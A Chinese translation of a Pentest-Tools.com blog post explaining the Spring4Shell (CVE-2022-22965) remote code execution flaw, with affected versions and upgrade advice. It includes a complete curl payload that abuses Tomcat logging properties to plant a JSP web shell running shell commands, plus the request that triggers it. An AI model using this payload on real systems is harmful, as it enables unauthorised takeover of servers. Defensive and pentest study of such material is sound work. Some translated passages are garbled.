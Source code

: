 # 如何手动检测和利用 spring 4 shell(CVE-2022-22965)| Pentest-Tools.com

> 原文：<https://pentest-tools.com/blog/detect-exploit-spring4shell-cve-2022-22965>

就在 Log4Shell 残酷地震撼了我们的世界几个月后，当一切开始看起来平静祥和的时候，上帝释放出了我们的脆弱。一个流行的 Java 框架中的另一个类似命名的漏洞——**spring 4 shell**—被曝光。

CVE-2022-22965 和它(稍微)年长的兄弟姐妹一样危险和广泛吗？请继续关注我们，一探究竟！

## **什么是 Spring4Shell？**

Spring4Shell 或 [CVE-2022-22965](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2022-22965) 是 Java Spring 框架中的一个远程代码执行漏洞，它是由将用户控制的值传递给 Spring 的类加载器的各种属性的能力引起的。这使得未经验证的远程攻击者有可能注入 web 外壳并获得 RCE。

## 【Spring4Shell 如何工作

如前所述，您需要摆弄类加载器，并达到您可以**成功地将 web shell 注入目标系统**的程度。根据在 Spring 框架上运行的应用程序，可能有不同的方法来利用这个漏洞。

目前，大多数 Apache Tomcat 服务器似乎都以各种已发布的 POC 为目标。这就是为什么我们现在将继续描述我们的同事 [Iulian](https://pentest-tools.com/blog/authors/pentest-iulian) 如何开发针对 Apache Tomcat web 服务器的[漏洞利用模块](https://pentest-tools.com/exploit-helpers/sniper#exploit-modules)，帮助您获得漏洞验证。

这个想法是使用类加载器来覆盖日志功能中的关键属性，这将导致**日志记录器创建一个 web shell 而不是日志文件**。

这些属性如下:

1.  `class.module.classLoader.resources.context.parent.pipeline.first.pattern`。这决定了日志文件的内容。这里是您想要放置 web shell 代码的地方。

2.  `class.module.classLoader.resources.context.parent.pipeline.first.prefix`。前缀是指日志文件的名称。这里是您命名 web shell 文件的地方。

3.  `class.module.classLoader.resources.context.parent.pipeline.first.suffix`。后缀表示日志文件的扩展名。这个必须是. jsp。

4.  `class.module.classLoader.resources.context.parent.pipeline.first.directory`。directory 属性确定日志文件的位置。如果可以远程访问根目录，可以使用 webapps/ROOT 作为 directory 属性的值，并且应该能够通过访问/与 web shell 进行交互。jsp

5.  `class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat`。这是可选的，它有助于提高攻击者的生活质量，因为如果该属性为空，它会从输出中删除繁琐的日志时间戳。

## **CVE 的业务影响-2022-22965**

成功利用 Spring4Shell 后，未经验证的远程攻击者可以获得对目标的控制，并危及整个底层系统的安全。

虽然这听起来像是可怕的事情，就像是 Log4Shell 的重演，但请记住，互联网上流传的 POC 将部署在 Tomcat 上的易受攻击的应用程序作为 WAR，这是**而不是**默认配置。

这让我相信易受攻击的目标不会像在 [Log4Shell](https://pentest-tools.com/blog/log4shell-scanner-detect-cve-2021-44228) 中那样容易被发现。

然而，整个安全社区已经无数次证明，它充满了聪明能干的头脑，能够找出甚至是最不可想象的利用方法。

因此，即使您不运行上述特定配置，**请考虑更新到下面列出的一个修补版本**。

## **如何在道德黑客活动中手动检测 spring 4 shell**

这里有一个 curl 命令，您可以使用它将 web shell 上传到易受攻击的目标。它遵循“Spring4Shell 如何工作”一节中描述的 5 个步骤，并包含以下内容:

*   模式中的 web shell 代码

*   的。后缀中的 jsp 扩展名

*   目录属性中的 webapps/ROOT 根目录

*   前缀中的 webshell_name

*   文件日期格式为空。

```
curl -H "prefix":"<%" -H "suffix":"%>//" -H "c":"Runtime" -H
"Content-Type":"application/x-www-form-urlencoded" -d
'class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(new String[]{%22/bin/sh%22,%22-c%22,request.getParameter(%22cmd%22)}).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di&class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp&class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT&class.module.classLoader.resources.context.parent.pipeline.first.prefix=<webshell_name>&class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=' http://127.0.0.1:<port>/<path>
```

一旦 web shell 上传到根目录，您就可以访问它并提供带有以下 GET 请求的命令:

```
curl http://127.0.0.1:/.jsp?cmd=<commands>
```

## **易受攻击的 Spring 版本**

| 产品名称 | 易受攻击版本 | 范围 |
| --- | --- | --- |
| 弹簧框架 | 5.3.x | 5.3.0 – 5.3.17 |
| 弹簧框架 | 5.2.x | 5.2.0 – 5.2.19 |

## **如何缓解 CVE-2022-22965**

运行 5.3.x 易受攻击版本的 Spring Framework 用户应立即升级到 5.3.18 或更新版本，而运行 5.2.x 版本的用户应至少升级到 5.2.20。

## **Spring4Shell 预计影响和大局**

全球有 [16%的组织](https://blog.checkpoint.com/2022/04/05/16-of-organizations-worldwide-impacted-by-spring4shell-zero-day-vulnerability-exploitation-attempts-since-outbreak/)受到 Spring4Shell RCE 漏洞的影响，估计有 **28%的组织来自软件行业**，识别和修补业务关键资产仍然是当务之急。

像 Spring4Shell 和 [Log4Shell](https://pentest-tools.com/blog/how-we-detect-log4shell) 这样的高风险漏洞提醒我们，如果没有主动的安全评估、多层安全和渗透到团队和角色的意识培训，技术生态系统是多么脆弱。

如果您喜欢这个技术指南，并且更好地理解了这个 CVE 的细节，请相信我们会在下面的文章中介绍更多的细节。